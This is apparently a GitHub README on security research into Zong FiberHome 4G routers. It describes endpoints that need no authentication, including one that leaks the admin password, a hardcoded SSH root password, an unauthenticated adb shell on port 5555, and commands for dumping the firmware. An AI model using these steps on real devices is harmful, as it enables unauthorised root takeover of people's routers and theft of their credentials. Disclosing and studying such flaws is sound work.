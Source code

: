 
# Zong FiberHome 4G Device

## Endpoints

Base URL: `/xml_action.cgi?method=get&module=duster&file=[name]`
known file names are:
 - admin
 - app_fun_support_list
 - battery_charge
 - custom_fw
 - detailed_log
 - dns
 - download_local_upgrade
 - lan
 - lock_cell_clear
 - message
 - message_drafts
 - message_outbox
 - message_set
 - message_state
 - message_state
 - net_advace_set
 - ntp_server
 - pin_puk
 - reset
 - restore_defaults
 - shutdown
 - status1
 - time_setting
 - traffic_excess_set
 - uapxb_wlan_basic_settings
 - uapxb_wlan_security_settings
 - upgrade_info
 - ussd_business
 - wan
 - wan_choose_net
 - wan_ip
 - wlan_auto_setting

 ## Vulnerabilities and Exploits
 Although the device use a wierd authentication method, it is nothing more than a gimmick used 
 by the UI code to give an illusion of authentication.
 All the endpoints are accessible directly without authentication and the best part of it all is you can
 use the [`admin`](http://192.168.8.1/xml_action.cgi?method=get&module=duster&file=admin) endpoint to get the username and password for the router.

The output of the `admin` endpoint is something like
```
<?xml version="1.0" encoding="US-ASCII"?>
<RGW>
	<management>
		<router_username>admin</router_username>
		<router_password>admin</router_password>
		<web_wlan_enable/>
		<httpd_port/>
		<syslogd_enable/>
		<web_wan_enable/>
		<syslogd_rem_ip/>
		<turbo_mode/>
        <customer/>
	</management>
</RGW>
```

The vulerability explained above is [well know and quite old](https://github.com/OsamaMahmood/Zong-router-exploit) but wait, There's more! to my knowledge(not sure though) the `Fiber Home` version of the `Zong` devices are unlocked by default but if yours is not, you can use a simple trick to get super user access and unlock
the device direcltly from the `Admin Panel` all you have to do is login to your router and change the default **username** from `admin` to `root` and voila you can see a new tab named `Advance` in `Settings` which provides options to unlock the device, As shown below

![Advance Settings](/zong_adv_settings.PNG?raw=true "Advance Settings")

## Analysis
It gets more interesting once you do a portscan of the device. The portscan shows the following ports to be open
 - 22 - SSH
 - 53 - DNS
 - 80 - HTTP (Admin Panel)
 - 3020 - Unknown
 - 3021 - Unknown
 - 5555 - Unknown

### Port 22
You can ssh into the device as `root` using password `oelinux123`

### Port 53 and 80
These ports are standard `DNS` and `HTTP` ports

### Port 3020
Port 3020 is interesting once you connect to it it immediatly send the banner `ms_version:1` and then appears to send/receive nothing but if you keep connected it starts sending packets with `JSON` payloads "periodically" which appears to be 4-byte length prefixed, see the sample payloads below

```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength": 2
}
```
```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength_v1": [
		{
			"cdma_dbm": 0,
			"evdo_dbm": -125,
			"gsm_signal_strength": 0,
			"lte_rsrp": -112,
			"operator_type": 2,
			"tds_signal_strength": 0,
			"wcdma_signal_strength": 0
		}
	]
}
```

### Port 3021
This port lets you connect to it and keeps the connection open as long as you don't send anything but as soon as you send something it immediately disconnects, possibly expects somekind of pattern IMO(these kinds of ports were found on other routers too)

### Port 5555
This port runs an unauthenticated `adb daemon` so you can easily connect to it using `adb` and get shell access as follow
```
adb connect 192.168.8.1:5555
adb shell
```
you will get access as root user so you can pretty much do anything you want.

### Dumping Image
You can list the flash partitions using:
```
cat /proc/mtd

Output:

dev:    size   erasesize  name
mtd0: 00140000 00020000 "sbl"
mtd1: 00140000 00020000 "mibib"
mtd2: 00b00000 00020000 "efs2"
mtd3: 00360000 00020000 "sdi"
mtd4: 00360000 00020000 "tz"
mtd5: 000c0000 00020000 "mba"
mtd6: 00360000 00020000 "rpm"
mtd7: 031e0000 00020000 "qdsp"
mtd8: 000e0000 00020000 "appsbl"
mtd9: 00800000 00020000 "apps"
mtd10: 00040000 00020000 "scrub"
mtd11: 04a80000 00020000 "cache"
mtd12: 00160000 00020000 "misc"
mtd13: 00560000 00020000 "cdrom"
mtd14: 002e0000 00020000 "logo"
mtd15: 00800000 00020000 "recovery"
mtd16: 00100000 00020000 "fota"
mtd17: 01080000 00020000 "recoveryfs"
mtd18: 01080000 00020000 "system"
mtd19: 12e80000 00020000 "userdata"
```
you can just `cat` the device and pipe the data to a file e.g. `ssh root@192.168.8.1 "cat /dev/mtd18" > system.img` to get the system image

### Filesystem
Its just a linux filesystem, fun stuff can be found in `/usr/mifi/`. Some of the configurations are also stored in `sqlite 3` databases and can be found in `/usr/data/`

### Credits
Thanks to [IMExperts](https://github.com/IMExperts) for providing the `ssh` password as well as mentioning that port `5555` is running `adb`

